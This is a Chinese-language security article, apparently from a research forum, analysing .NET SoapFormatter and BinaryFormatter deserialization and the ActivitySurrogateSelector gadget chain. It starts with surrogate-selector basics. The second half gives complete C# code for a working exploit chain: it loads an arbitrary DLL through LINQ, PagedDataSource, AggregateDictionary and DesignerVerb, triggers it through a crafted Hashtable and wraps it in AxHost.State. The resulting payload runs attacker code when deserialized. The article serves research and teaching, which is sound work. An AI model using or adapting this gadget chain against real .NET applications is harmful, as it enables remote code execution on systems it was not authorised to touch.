# SoapFormatter 反序列化与 ActivitySurrogateSelector gadgets - 先知社区

SoapFormatter 反序列化与 ActivitySurrogateSelector gadgets


### SoapFormatter

`SoapFormatter`用于生成基于 xml 的 soap 数据流，命名空间位于`System.Runtime.Serialization.Formatters.Soap`，该类实现[IRemotingFormatter](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.remoting.messaging.iremotingformatter?view=netframework-4.8.1)，[IFormatter](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.iformatter?view=netframework-4.8.1)接口

[https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.soap.soapformatter?view=netframework-4.8.1](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.soap.soapformatter?view=netframework-4.8.1)

```plain
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Runtime.Serialization.Formatters.Soap;
using System.Text;
using System.Threading.Tasks;

namespace SoapDeserializationTest
{
    [Serializable]
    public class Person
    {
        public string Name { get; set; }
        public string FirstName { get; set; }

    }
    internal class Program
    {
        static void Main(string[] args)
        {
            Person person = new Person();
            person.Name = "guess";
            person.FirstName = "EX";

            SoapFormatter soapFormatter = new SoapFormatter();
            // new MemoryStream()


            using (var memoryStream = new MemoryStream()) {

                soapFormatter.Serialize(memoryStream, person);
                //TextWriter writer = new StreamWriter(memoryStream,utf8EncodingWithNoByteOrderMark);
                memoryStream.Position = 0;
                string soap = Encoding.UTF8.GetString(memoryStream.ToArray());
                Console.WriteLine(Encoding.Default.GetString(memoryStream.ToArray()));
            }
            Console.ReadLine();
        }
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108201935-1498fdf6-7e31-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108201943-19177628-7e31-1.png)

BinaryFormatter 一样可以设置`SerializationBinder`和`SerializationSurrogate`代理选择器

### SerializationSurrogate

```plain
SurrogateSelector`代理选择器的作用是让本来不可以序列化的类通过`SerializationSurrogate
```

可以进行序列化和反序列化。实现`ISerializationSurrogate`接口必须实现`SetObjectData`和`GetObjectData`方法

```plain
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Soap;
using System.Text;
using System.Threading.Tasks;

namespace SoapDeserializationTest
{

    public class Person
    {
        public string Name { get; set; }
        public string FirstName { get; set; }

    }
    public class PersonSurrogateSelector : ISerializationSurrogate
    {
        public void GetObjectData(object obj, SerializationInfo info, StreamingContext context)
        {
            Person person = (Person)obj;
            info.AddValue("PersonName", person.Name);
        }

        public object SetObjectData(object obj, SerializationInfo info, StreamingContext context, ISurrogateSelector selector)
        {
            Person person = (Person)obj;
            person.Name = info.GetString("PersonName");
            return person;
        }
    }

    internal class Program
    {
        static void Main(string[] args)
        {
            Person person = new Person();
            person.Name = "guess";
            person.FirstName = "EX";

            SoapFormatter soapFormatter = new SoapFormatter();
            // new MemoryStream()

            PersonSurrogateSelector personSurrogateSelector = new PersonSurrogateSelector(); 
            SurrogateSelector surrogateSelector = new SurrogateSelector();
            surrogateSelector.AddSurrogate(typeof(Person), new StreamingContext(StreamingContextStates.All), personSurrogateSelector);
            soapFormatter.SurrogateSelector = surrogateSelector;


            using (var memoryStream = new MemoryStream()) {

                soapFormatter.Serialize(memoryStream, person);

                memoryStream.Position = 0;
                string soap = Encoding.UTF8.GetString(memoryStream.ToArray());
                Console.WriteLine(Encoding.Default.GetString(memoryStream.ToArray()));
                soapFormatter.Deserialize(memoryStream);
            }
            Console.ReadLine();
        }
    }
}
```

测试发现因为没使用`Serializable`特性并且未实现`Serializable`接口，未添加`soapFormatter.SurrogateSelector = surrogateSelector;`该行代码不能序列化。添加改行代码后，序列化和反序列化会执行到`PersonSurrogateSelector`的`GetObjectData`、`SetObjectData`方法。

### SurrogateSelector

命名空間：

[System.Runtime.Serialization](https://learn.microsoft.com/zh-tw/dotnet/api/system.runtime.serialization?view=net-7.0)

組件：

```plain
System.Runtime.Serialization.Formatters.dll
```

在代理选择器可以序列化和反序列化原本不能被序列化或者反序列化的类。

实现[ISurrogateSelector](https://learn.microsoft.com/zh-tw/dotnet/api/system.runtime.serialization.isurrogateselector?view=net-7.0)接口

```plain
class MySurrogateSelector : SurrogateSelector
    {
        public override ISerializationSurrogate GetSurrogate(Type type, StreamingContext context, out ISurrogateSelector selector)
        {

            selector = this;
            if (!type.IsSerializable)
            {
                Type t = Type.GetType("System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector+ObjectSurrogate, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35");
                return (ISerializationSurrogate)Activator.CreateInstance(t);
            }
            return base.GetSurrogate(type, context, out selector);
        }
    }
//...
  MemoryStream fmt = new MemoryStream();
  fmt.SurrogateSelector = new MySurrogateSelector();
  fmt.Serialize(stm, new NonSerializable("Hello World!"));
```

在序列化过程中会调用所添加的`SurrogateSelector`的`GetSurrogate`来获取`Surrogate`，即代理对象。该对象为`SerializationSurrogate`实例化对象，有`GetObjectData`和`SetObjectData`方法，在序列化过程和反序列化过程会调用到这两个方法来从`SerializationInfo`里赋值取值操作。

简单来说就是`SurrogateSelector`是代理选择器，而`SerializationSurrogate`则是代理者的关系。

当然，在序列化的时候使用选择代理器进行序列化的时候和反序列化都没有问题，但是如果是使用选择代理器序列化，而使用原生的方式进行反序列化会怎么样呢？下面来测试一下

```plain
using System;
using System.IO;

using System.Configuration;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Soap;
using System.Workflow.ComponentModel.Serialization;
using System.Text;

namespace SerializationCollection
{
    class Person
    {
        private int age;
        private string name;
        public int Age { get => age; set => age = value; }
        public string Name { get => name; set => name = value; }
        public void SayHello()
        {
            Console.WriteLine("hello from SayHello");
        }
    }

    sealed class PersonSerializeSurrogate : ISerializationSurrogate
    {

        public void GetObjectData(Object obj, SerializationInfo info, StreamingContext context)
        {
            var p = (Person)obj;
            info.AddValue("Name", p.Name);
        }

        public Object SetObjectData(Object obj, SerializationInfo info, StreamingContext context, ISurrogateSelector selector)
        {
            var p = (Person)obj;
            p.Name = info.GetString("Name");
            return p;
        }
    }

    class Program
    {
        static void Main(string[] args)
        {
            SoapFormatter soapFormatter = new SoapFormatter();
            var ss = new SurrogateSelector();
            ss.AddSurrogate(typeof(Person), new StreamingContext(StreamingContextStates.All), new PersonSerializeSurrogate());
            //设置代理选择器
            soapFormatter.SurrogateSelector = ss;

            Person person = new Person();
            person.Age = 10;
            person.Name = "jack";
            MemoryStream stream = new MemoryStream();
            // 序列化写入数据
            soapFormatter.Serialize(stream, person);
            string soap = Encoding.UTF8.GetString(stream.ToArray());
            Console.WriteLine(soap);
            Console.WriteLine("=========");
            // 反序列化读取数据

            stream.Position = 0;
            // Person p = (Person)soapFormatter.Deserialize(stream);
            //原生方式进行反序列化
            var fmt2 = new SoapFormatter();
            Person p = (Person)fmt2.Deserialize(stream);

            Console.WriteLine(p.Name);
            stream.Close();
            p.SayHello();

            Console.ReadKey();
        }
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202009-28c67a24-7e31-1.png)

因为序列化走的是`ISurrogateSelector#SetObjectData`，而反序列化使用的是原来的方式进行反序列化，所以会报错。

想要不报错，需要结合`ActivitySurrogateSelector`来进行操作。

### SurrogateSelector 序列化调用过程

在序列化的时候 InitSerialize

```plain
surrogateSelector.GetSurrogate`获取`Surrogate`，`this.serializationSurrogate.GetObjectData`调用`serializationSurrogate`对于的`GetObjectData
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202018-2e39026a-7e31-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202026-32b2aa08-7e31-1.png)

### SurrogateSelector 反序列化调用过程

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202033-3707a798-7e31-1.png)

调用`this.CheckSerializable`检查指定的 Type 是否可以被序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202048-40259f60-7e31-1.png)

```plain
private void CheckSerializable(Type t)
        {
            if (!t.IsSerializable && !this.HasSurrogate(t))
            {
                throw new SerializationException(string.Format(CultureInfo.CurrentCulture, SoapUtil.GetResourceString("Serialization_NonSerType"), new object[]
                {
                    t.FullName,
                    t.Module.Assembly.FullName
                }));
            }
        }
```

查看是否有可被序列化或存在`Surrogate`，不可被序列化并且没有`Surrogate`即跑出异常

```plain
private bool HasSurrogate(Type t)
        {
            ISurrogateSelector surrogateSelector;
            return this.m_surrogates != null && this.m_surrogates.GetSurrogate(t, this.m_context, out surrogateSelector) != null;
        }
```

如果可序列化或存在`Surrogate`则往下执行，`FormatterServices.GetUninitializedObject(pr.PRdtType);`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202102-486e5202-7e31-1.png)

获取对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202109-4c7fffee-7e31-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202114-4f9f2646-7e31-1.png)

### ActivitySurrogateSelector

命名空间：

[System.Workflow.ComponentModel.Serialization](https://learn.microsoft.com/zh-tw/dotnet/api/system.workflow.componentmodel.serialization?view=netframework-4.8.1)

组件：

System.Workflow.ComponentModel.dll

根据官方文档`ActivitySurrogateSelector`是可以用来序列化[Activity](https://learn.microsoft.com/zh-tw/dotnet/api/system.workflow.componentmodel.activity?view=netframework-4.8.1)的代理

```plain
using System;
using System.IO;

using System.Configuration;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Soap;
using System.Workflow.ComponentModel.Serialization;

namespace SoapDeserialization
{
    class NonSerializable
    {
        private string _text;

        public NonSerializable(string text)
        {
            _text = text;
        }

        public override string ToString()
        {
            return _text;
        }
    }

    // Custom serialization surrogate
    class MySurrogateSelector : SurrogateSelector
    {
        //重写GetSurrogate方法
        public override ISerializationSurrogate GetSurrogate(Type type, StreamingContext context, out ISurrogateSelector selector)
        {

            selector = this;
            if (!type.IsSerializable)
            {
                Type t = Type.GetType("System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector+ObjectSurrogate, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35");
                return (ISerializationSurrogate)Activator.CreateInstance(t);
            }
            return base.GetSurrogate(type, context, out selector);
        }
    }

    class Program
    {
        public static void Main(string[] args)
        {

            System.Configuration.ConfigurationManager.AppSettings.Set("microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck", "true");
            SoapFormatter soapFormatter1 = new SoapFormatter();
            MemoryStream memoryStream = new MemoryStream();


            soapFormatter1.SurrogateSelector = new MySurrogateSelector();
            soapFormatter1.Serialize(memoryStream, new NonSerializable("Hello World!"));
            memoryStream.Position = 0;

            SoapFormatter soapFormatter2 = new SoapFormatter();
            Console.WriteLine(soapFormatter2.Deserialize(memoryStream));
            Console.ReadKey();
        }
    }

}
```

执行发现并没有报错，那么思考一个问题为什么使用`ActivitySurrogateSelector.ObjectSurrogate`这个`Surrogate`后在原始的`SoapFormatter`反序列化的时候不会报错

先来看看`ObjectSurrogate`代码

`ActivitySurrogateSelector.ObjectSurrogate#GetObjectData`方法

```plain
public void GetObjectData(object obj, SerializationInfo info, StreamingContext context)
            {
                if (!AppSettings.DisableActivitySurrogateSelectorTypeCheck && !(obj is ActivityBind) && !(obj is DependencyObject))
                {
                    throw new ArgumentException("obj");
                }

                info.AddValue("type", obj.GetType());
                string[] names = null;
                MemberInfo[] serializableMembers = FormatterServicesNoSerializableCheck.GetSerializableMembers(obj.GetType(), out names);
                object[] objectData = FormatterServices.GetObjectData(obj, serializableMembers);
                info.AddValue("memberDatas", objectData);
                info.SetType(typeof(ObjectSerializedRef));
            }

            public object SetObjectData(object obj, SerializationInfo info, StreamingContext context, ISurrogateSelector selector)
            {
                return null;
            }
        }
```

在这个`GetObjectData`方法执行的时候会把 obj 对象获取的 obj 的 Type 类型存储到 type 中获取到的对象，memberDatas 则存储对象，最后讲 Type 类型设置为`ObjectSerializedRef`类型

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202220-76fa2f74-7e31-1.png)

而这个`ObjectSerializedRef`是标识`Serializable`的，可被序列化和反序列化的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202226-7a59a4ec-7e31-1.png)

那么有了`ActivitySurrogateSelector`的加持下，在寻找 gadgets sink 点的过程中，就可以利用那些不能序列化的类。

### LINQ

语言集成查询 (LINQ) 是一系列直接将查询功能集成到 C# 语言的技术统称。数据查询历来都表示为简单的字符串，没有编译时类型检查或 IntelliSense 支持。此外，需要针对每种类型的数据源了解不同的查询语言：SQL 数据库、XML 文档、各种 Web 服务等。借助 LINQ，查询成为了最高级的语言构造，就像类、方法和事件一样。

```plain
static void Main(string[] args)
        {
            // Specify the data source.
            int[] scores = { 97, 92, 81, 60 };

            // Define the query expression.
            IEnumerable<int> scoreQuery =
                from aaa in scores
                where aaa > 60 && aaa > scores.Length
                select aaa;

            foreach (int score in scoreQuery) {
                Console.WriteLine(score);
            }
            Console.ReadLine();
            // Output: 97 92 81
        }
    }
}
```

也可以简化写法，这种方式叫做标准查询操作符

```plain
int[] scores = { 97, 92, 81, 60 };

IEnumerable<int> scoreQuery =  scores.Where(score => score  >60).Select(score=>score);
```

再来看一个案例，结合泛型委托使用

```plain
using System;
using System.Collections.Generic;
using System.Linq;

class Program
{
    static void Main(string[] args)
    {
        List<int> numbers = new List<int> { 1, 2, 3, 4, 5, 6, 7, 8, 9, 10 };

        // 使用Where和Select进行筛选和映射
        IEnumerable<string> filteredAndMappedNumbers = numbers
            .Where(IsEven) // 使用IsEven方法作为泛型委托进行筛选
            .Select(DoubleToString); // 使用DoubleToString方法作为泛型委托进行映射

        foreach (string number in filteredAndMappedNumbers)
        {
            Console.WriteLine(number);
        }
        Console.ReadLine();
        // 输出：2, 4, 6, 8, 10
    }

    static bool IsEven(int number)
    {
        return number % 2 == 0;
    }

    static string DoubleToString(int number)
    {
        return (number * 2).ToString();
    }
}
```

使用`IsEven`方法作为泛型委托进行筛选，使用`DoubleToString`方法作为泛型委托进行映射

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202242-839f859e-7e31-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202250-889b8624-7e31-1.png)

Where 方法里面，第一个参数传递一个集合，第二个为一个 Func 泛型委托，它接收类型它接收类型为

`TSource`的参数，返回值为 bool 类型。因为 where 是一个筛选条件所以需要泛型委托的返回值要为 bool 类型。

### LINQ 延迟执行

LINQ 的延迟执行是指查询操作不会立即执行，而是在需要结果时才进行实际的计算和评估。延迟执行的特性提供了一些优点和灵活性。

延迟执行的 LINQ 查询在以下情况下会执行：

1.  枚举（遍历）查询结果：当对 LINQ 查询结果进行迭代或枚举时，查询会立即执行并生成相应的结果。这可以通过`foreach`循环、LINQ 的扩展方法（如`ToList()`、`ToArray()`等），或直接使用 LINQ 查询结果的迭代器方法来实现。
2.  强制立即执行操作：某些 LINQ 操作会强制查询立即执行以生成结果，而不是延迟执行。这些操作包括：
    
3.  *   聚合操作，如`Count()`、`Sum()`、`Average()`等，它们需要遍历整个查询结果来计算聚合值。
    *   转换操作，如`ToList()`、`ToArray()`、`ToDictionary()`等，它们将查询结果转换为新的集合类型，需要立即计算并生成新的集合。

除了上述情况外，延迟执行的 LINQ 查询会在以下情况下推迟执行：

1.  查询定义阶段：在定义 LINQ 查询时，不会执行查询操作，而是创建一个查询表达式或查询对象。只有在需要查询结果时，才会触发实际的计算和评估。
2.  查询表达式链中的操作：如果在查询表达式链中添加多个操作（如`Where`、`Select`、`OrderBy`等），查询操作将保持延迟执行状态，直到需要结果为止。
3.  延迟加载数据：如果 LINQ 查询涉及到数据库查询、网络请求或其他潜在的延迟加载机制，查询操作将被推迟执行，直到需要从数据源加载数据时。

需要注意的是，延迟执行的行为是由 LINQ 提供的特性，并且可能因不同的查询提供程序和运行环境而有所不同。因此，在编写和使用 LINQ 查询时，确保理解延迟执行的行为，并在需要时进行适当的强制执行操作，以获得期望的查询结果。

### Delegate.CreateDelegate

这里需要穿插一下知识

```plain
using System;
using System.Reflection;

class Program
{
    static void Main()
    {
        // 获取类型信息
        Type type = typeof(Math);

        // 获取要调用的方法信息
        MethodInfo method = type.GetMethod("Max", new[] { typeof(int), typeof(int) });

        // 创建委托实例
        Func<int, int, int> maxDelegate = (Func<int, int, int>)Delegate.CreateDelegate(typeof(Func<int, int, int>), method);

        // 调用委托
        int result = maxDelegate.Invoke(10, 5);

        // 输出结果
        Console.WriteLine("Max: " + result);
    }
}
```

这个示例中，我们使用 `typeof(Math)` 获取 Math 类型的信息，然后使用 `GetMethod` 方法获取 Max 方法的 `MethodInfo`。注意，我们使用了一个类型数组来指定 Max 方法的参数类型。

接下来，我们使用 `Delegate.CreateDelegate` 方法来创建一个委托实例。我们需要提供两个参数：要创建的委托类型`（typeof(Func<int, int, int>)`，以及要绑定的方法`（method）`。

在示例中，我们创建了一个 `Func<int, int, int>`委托实例，该委托可以接受两个 int 参数并返回一个 int 值。

第一个参数是传入的委托类型也就是`maxDelegate.Invoke(10, 5)`这里需要传入的类型;，第二个参数是绑定的绑定的方法

### 构造执行链

结合上面知识点来看的话，我们只需要构造合适的方法交给 LINQ 来委托运行就可以了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202304-90b2a356-7e31-1.png)

```plain
using System;
using System.Collections.Generic;
using System.Linq;
using System.IO;
using System.Reflection;

class Program
{
    static void Main(string[] args)
    {
       List<byte[]> bytesFile = new List<byte[]>();

        bytesFile.Add(File.ReadAllBytes(@"D:\ysoserial-245b9512aaaa850f1235f248ac9b91ab35dfa20a\Release\e.dll"));


        bytesFile.Select(Assembly.Load);


    }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202415-bb6cfb6e-7e31-1.png)

这个泛型委托传入的是 byte 类型，返回的是`Assembly`类型

下面需要把整一个反射步骤串联

先来贴一个反射的代码

```plain
Assembly assembly = Assembly.Load("DB.SQLServer");//加载方式一：dll 文件名（当前目录）
Type SQLServer_type = assembly.GetType("DB.SQLServer.SQLServerHelper");
object obj = Activator.CreateInstance(SQLServer_type);
SQLServerHelper ServerHelper= obj as SQLServerHelper;
Students students = ServerHelper.Find(1);
```

我们前面只是完成了第一步

第二步我们需要用委托`public virtual Type[] GetTypes()`方法，但是`GetTypes()`函数没有输入参数，并且返回`Type[]`类型，我们希望返回值类型是`MethodInfo`,这里就需要借助`Delegate.CreateDelegate`

```plain
Func<Assembly, IEnumerable<Type>> map_type = (Func<Assembly, IEnumerable<Type>>)Delegate.CreateDelegate(typeof(Func<Assembly, IEnumerable<Type>>), typeof(Assembly).GetMethod("GetTypes"));
            var e2 = e1.Select(map_type);
            Console.WriteLine(e2.GetType());
```

`typeof(Func<Assembly, IEnumerable<Type>>)`这里是设定传入的委托类型，`typeof(Assembly).GetMethod("GetTypes"))`这个是指定委托绑定的方法

在以上代码中，使用`Func<Assembly, IEnumerable<Type>>`类型变量来存储`Assembly.GetTypes()`方法，是因为该方法具有与`Func<Assembly, IEnumerable<Type>>`委托类型相匹配的签名。

`Func<Assembly, IEnumerable<Type>>`是一个泛型委托类型，它表示一个具有一个 Assembly 类型参数并返回一个`IEnumerable<Type>`类型结果的方法。

`Assembly.GetTypes()`方法正好具有与上述委托类型相匹配的签名，它接受一个 Assembly 类型参数，并返回一个`IEnumerable<Type>`类型的结果，因此可以将该方法与`Func<Assembly, IEnumerable<Type>>`类型进行绑定。

通过使用`typeof(Assembly).GetMethod("GetTypes")`，可以获取到`Assembly`类型的`GetTypes`方法的`MethodInfo`对象。`GetMethod`方法用于获取类型中具有指定名称的方法。

在这种情况下，我们通过`typeof(Assembly)`获取表示 Assembly 类型的 Type 对象，然后通过调用`GetMethod("GetTypes")`来获取`GetTypes`方法的`MethodInfo`对象。

最后，通过调用`Delegate.CreateDelegate`方法，将`Assembly.GetTypes`方法的`MethodInfo`对象转换为具有匹配签名的委托，然后将其赋值给 map\_type 变量，使其可以在需要时调用`Assembly.GetTypes`方法。

总结起来，`Delegate.CreateDelegate`方法的目的是通过反射方式将一个方法转换为具有特定签名的委托，以便可以像调用普通委托一样调用该方法。在提供的示例中，委托的签名与`Assembly.GetTypes`方法的签名完全匹配，因此可以成功将其绑定。

```plain
Func<Assembly, IEnumerable<Type>> map_type = (Func<Assembly, IEnumerable<Type>>)Delegate.CreateDelegate(typeof(Func<Assembly, IEnumerable<Type>>), typeof(Assembly).GetMethod("GetTypes"));
            var e2 = e1.Select(map_type);
            Console.WriteLine(e2.GetType());
```

这里构造执行完成后返回的是`IEnumerable<IEnumerable<Type>>`,因为`GetTypes()`返回的是`Type[]`类型，所有我们期望该委托返回的是一个`IEnumerable<Type>`，在这里就需要使用`SelectMany`来获取

```plain
Func<Assembly, IEnumerable<Type>> map_type = (Func<Assembly, IEnumerable<Type>>)Delegate.CreateDelegate(typeof(Func<Assembly, IEnumerable<Type>>), typeof(Assembly).GetMethod("GetTypes"));


var e2 = e1.SelectMany(map_type);
```

第三步需要`Activator.CreateInstance`来获取实例对象，这个比较简单

```plain
var e2 = e1.SelectMany(map_type);

var e3 = e2.Select(Activator.CreateInstance);
```

### 串联利用链

根据 LINQ 的延迟执行特点，只有当我们枚举结果时集合里的元素时，将会加载程序集并创建实例类型，那么执行我们的代码。问题来了，在反序列化后，如何保证执行枚举操作以启动一条链呢？

James Forshaw 想到的思路是这样的：首先找到一个方法，使得在反序列化时执行 ToString() 函数，然后找到一条链从 ToString() 到 IEnumerable。

```plain
Enumerable -> PagedDataSource -> ICollection
ICollection -> AggregateDictionary -> IDictionary
IDictionary -> DesignerVerb -> ToString
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202547-f22484ec-7e31-1.png)

```plain
// PagedDataSource maps an arbitrary IEnumerable to an ICollection
PagedDataSource pds = new PagedDataSource() { DataSource = e3 };
// AggregateDictionary maps an arbitrary ICollection to an IDictionary 
// Class is internal so need to use reflection.
IDictionary dict = (IDictionary)Activator.CreateInstance(typeof(int).Assembly.GetType("System.Runtime.Remoting.Channels.AggregateDictionary"), pds);

// DesignerVerb queries a value from an IDictionary when its ToString is called. This results in the linq enumerator being walked.
DesignerVerb verb = new DesignerVerb("XYZ", null);
// Need to insert IDictionary using reflection.
typeof(MenuCommand).GetField("properties", BindingFlags.NonPublic | BindingFlags.Instance).SetValue(verb, dict);
```

第一步，使用`PagedDataSource`类将`IEnumerable`类型转换为`ICollection`类型，该类实现`ICollection`，dataSource 类型是`IEnumerable`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202601-faa962a4-7e31-1.png)

第二步：

将 `ICollection` 类型转换为 `IDictionary` 类型

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202608-fe96b98e-7e31-1.png)

第三步：DesignerVerb 类型的 ToString() 函数会枚举`IDictionary`

```plain
public string Text {
    get {
        object result = Properties["Text"];
        if (result == null) {
            return String.Empty;
        }
        return (string)result;
    }
}

public override string ToString() {
    return Text + " : " + base.ToString();
}
```

他的`this.Properties`是`MenuCommand`类的`Properties`属性，类型为`IDictionary`。`ToString`会调用`Properties["Text"]`，如果将这个`Properties`属性设置为构造的`AggregateDictionary` 恶意对象。这个会触发 LINQ。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202618-04972512-7e32-1.png)

以上这里手工调用了`ToString`来触发，那么现在还差一步就是在反序列化的过程中怎么去触发

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202626-0934a900-7e32-1.png)

```plain
// Hashtable.Insert()
// The current bucket is in use
// OR
// it is available, but has had the collision bit set and we have already found an available bucket
if (((buckets[bucketNumber].hash_coll & 0x7FFFFFFF) == hashcode) && 
    KeyEquals (buckets[bucketNumber].key, key)) {
    if (add) {
        throw new ArgumentException(Environment.GetResourceString("Argument_AddingDuplicate__", buckets[bucketNumber].key, key));
    }
```

在反序列化过程中，会对键值进行重组，会对比 hashcode，如果值一样则会抛出异常

```plain
internal static String GetResourceString(String key, params Object[] values) {
    String s = GetResourceString(key);
    return String.Format(CultureInfo.CurrentCulture, s, values);
}
```

在`GetResourceString`函数里，`values`被传给了`String.Format()`，由于`values`不是`string`类型，会导致其调用`ToSTring()`方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202638-105168f4-7e32-1.png)

反射设置 2 个 key 为`DesignerVerb`，到抛出异常调用`GetResourceString`调用的时候会把`values`被传给了`String.Format()`，从而`DesignerVerb`的 ToString 方法完成串联。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202654-19f41fd2-7e32-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202702-1e818d6e-7e32-1.png)

```plain
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.IO;
using System.Reflection;
using System.Web.UI.WebControls;
using System.ComponentModel.Design;
using System.Collections;

namespace ActivitySurrogateSelectorGeneratorTest
{
    // Custom serialization surrogate
    class MySurrogateSelector : SurrogateSelector
    {
        public override ISerializationSurrogate GetSurrogate(Type type,
            StreamingContext context, out ISurrogateSelector selector)
        {
            selector = this;
            if (!type.IsSerializable)
            {
                Type t = Type.GetType("System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector+ObjectSurrogate, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35");
                return (ISerializationSurrogate)Activator.CreateInstance(t);
            }

            return base.GetSurrogate(type, context, out selector);
        }
    }

    [Serializable]
    public class PayloadClass : ISerializable
    {
        public byte[] GadgetChains()
        {
            System.Diagnostics.Trace.WriteLine("In GetObjectData");

            List<byte[]> bytesFile = new List<byte[]>();

            bytesFile.Add(File.ReadAllBytes(@"C:\Windows\Microsoft.NET\Framework\v4.0.30319\ExploitClass.dll"));


            var e1 = bytesFile.Select(Assembly.Load);
            Func<Assembly, IEnumerable<Type>> MyGetTypes = (Func<Assembly, IEnumerable<Type>>)Delegate.CreateDelegate(typeof(Func<Assembly, IEnumerable<Type>>), typeof(Assembly).GetMethod("GetTypes"));
            var e2 = e1.SelectMany(MyGetTypes);
            var e3 = e2.Select(Activator.CreateInstance);

            // PagedDataSource maps an arbitrary IEnumerable to an ICollection
            PagedDataSource pds = new PagedDataSource() { DataSource = e3 };
            // AggregateDictionary maps an arbitrary ICollection to an IDictionary 
            // Class is internal so need to use reflection.
            IDictionary dict = (IDictionary)Activator.CreateInstance(typeof(int).Assembly.GetType("System.Runtime.Remoting.Channels.AggregateDictionary"), pds);

            // DesignerVerb queries a value from an IDictionary when its ToString is called. This results in the linq enumerator being walked.
            DesignerVerb verb = new DesignerVerb("XYZ", null);
            // Need to insert IDictionary using reflection.
            typeof(MenuCommand).GetField("properties", BindingFlags.NonPublic | BindingFlags.Instance).SetValue(verb, dict);

            // Pre-load objects, this ensures they're fixed up before building the hash table.
            List<object> ls = new List<object>();
            ls.Add(e1);
            ls.Add(e2);
            ls.Add(e3);
            ls.Add(pds);
            ls.Add(verb);
            ls.Add(dict);

            Hashtable ht = new Hashtable();

            // Add two entries to table.
            ht.Add(verb, "Hello");
            ht.Add("Dummy", "Hello2");

            FieldInfo fi_keys = ht.GetType().GetField("buckets", BindingFlags.NonPublic | BindingFlags.Instance);
            Array keys = (Array)fi_keys.GetValue(ht);  //buckets
            FieldInfo fi_key = keys.GetType().GetElementType().GetField("key", BindingFlags.Public | BindingFlags.Instance);
            for (int i = 0; i < keys.Length; ++i)
            {
                object bucket = keys.GetValue(i);
                object key = fi_key.GetValue(bucket);
                if (key is string)
                {
                    fi_key.SetValue(bucket, verb);
                    keys.SetValue(bucket, i);
                    break;
                }
            }

            fi_keys.SetValue(ht, keys);

            ls.Add(ht);

            BinaryFormatter fmt1 = new BinaryFormatter();
            MemoryStream stm = new MemoryStream();
            fmt1.SurrogateSelector = new MySurrogateSelector();
            fmt1.Serialize(stm, ls);
            //info.AddValue("DataSet.Tables_0", stm.ToArray());
            /*
            BinaryFormatter fmt2 = new BinaryFormatter();
            stm.Seek(0, SeekOrigin.Begin);
            fmt2.Deserialize(stm);
            */
            return stm.ToArray();
        }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            System.Diagnostics.Trace.WriteLine("In GetObjectData");
            info.SetType(typeof(System.Windows.Forms.AxHost.State));
            info.AddValue("PropertyBagBinary", GadgetChains());
        }
    }


    class Program
    {

        static void Main(string[] args)
        {
            System.Configuration.ConfigurationManager.AppSettings.Set("microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck", "true");
            BinaryFormatter fmt1 = new BinaryFormatter();
            BinaryFormatter fmt2 = new BinaryFormatter();
            MemoryStream stm = new MemoryStream();
            PayloadClass test = new PayloadClass();
            fmt1.SurrogateSelector = new MySurrogateSelector();
            fmt1.Serialize(stm, test);
            stm.Seek(0, SeekOrigin.Begin);
            fmt2.Deserialize(stm);
        }
    }
}
```

上面代码`PayloadClass`的`GetObjectData`

```plain
public void GetObjectData(SerializationInfo info, StreamingContext context)
{
    System.Diagnostics.Trace.WriteLine("In GetObjectData");
    info.SetType(typeof(System.Windows.Forms.AxHost.State));
    info.AddValue("PropertyBagBinary", GadgetChains());
}
```

来看到`State`的构造方法就知道了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202725-2c6bb0e4-7e32-1.png)

遍历`enumerator`获取`PropertyBagBinary`的 value，调用`this.propBag.Read`，进行`BinaryFormatter`的`Deserialize`反序列化操作。

```plain
internal class PropertyBagStream : UnsafeNativeMethods.IPropertyBag
        {
            private Hashtable bag = new Hashtable();

            internal void Read(Stream stream)
            {
                BinaryFormatter binaryFormatter = new BinaryFormatter();
                try
                {
                    bag = (Hashtable)binaryFormatter.Deserialize(stream);
                }
